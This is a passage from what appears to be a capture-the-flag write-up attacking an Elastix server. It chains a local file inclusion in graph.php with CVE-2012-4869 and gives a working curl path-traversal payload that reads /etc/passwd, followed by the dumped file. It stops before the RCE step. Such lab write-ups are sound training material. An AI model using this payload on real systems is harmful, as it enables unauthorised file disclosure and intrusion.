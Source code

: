 Finally, after landing on https://$TARGET_IP we can see Elastix administration panel login screen. Let's [check](https://www.google.com/search?q=Elastix+vulnerability) if there are some interesting vulnerabilities we could exploit. As expected there are plenty to chose from, let's chain those two:

- [CVE-N/A](https://www.exploit-db.com/exploits/37637) - pre-authenticated LFI in `graph.php`.
- [CVE-2012-4869](https://nvd.nist.gov/vuln/detail/CVE-2012-4869) - pre-authenticated RCE in `callme_page.php`.

First vulnerability gives us ability to read any file as Elastix server running user. Let's try to read `/etc/passwd`.
```
curl "https://$TARGET_IP/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action" --insecure
```
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```
